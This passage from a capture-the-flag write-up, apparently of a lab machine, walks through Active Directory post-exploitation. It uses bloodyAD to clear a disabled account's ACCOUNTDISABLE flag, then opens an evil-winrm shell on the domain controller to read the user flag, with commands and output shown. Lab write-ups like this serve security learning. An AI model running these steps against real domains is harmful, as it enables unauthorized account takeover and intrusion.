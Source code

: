 ```
~$ nxc smb dc.puppy.htb  -u 'ADAM.SILVER' -p 'Ch4ng3Passw0rd@123'

SMB         dc.puppy.htb     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb     445    DC               [-] PUPPY.HTB\ADAM.SILVER:Ch4ng3Passw0rd@123 STATUS_ACCOUNT_DISABLED 
```

### 🔓 Account Reactivation and Shell Access via Evil-WinRM

<p class="indent-paragraph">
With Adam’s password reset, we were nearly there, except the account was still flagged as disabled. To address this, we used<code>bloodyAD</code><span class="codefix">,</span> a post-exploitation tool designed to manipulate Active Directory objects via LDAP operations. By issuing<code>remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE</code><span class="codefix">,</span> we cleared the<code>ACCOUNTDISABLE</code> bit from the<code>userAccountControl</code> attribute, effectively reactivating the account. No need to edit the object manually or interact via GUI, a single command, and Adam Silver was back online.
</p>


```
~$ bloodyAD --host dc.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from ADAM.SILVER's userAccountControl
```

<p class="indent-paragraph">
With the account re-enabled and armed with valid credentials, we initiated a session using<code>evil-winrm</code><span class="codefix">,</span> a reliable tool for remote PowerShell access in Windows environments. Connecting to the domain controller as <span class="blue">adam.silver</span>, we navigated to the user’s<code>Desktop</code> and retrieved the<code>user.txt</code> flag — final confirmation that our foothold had been successfully established.
</p>

```
~$ evil-winrm -i dc.puppy.htb -u adam.silver -p 'Ch4ng3Passw0rd@123'    
                                        
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> 
*Evil-WinRM* PS C:\Users\adam.silver\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> dir

    Directory: C:\Users\adam.silver\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---         5/28/2025   1:15 PM             34 user.txt

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> type user.txt
fde97**********************f873e4
```
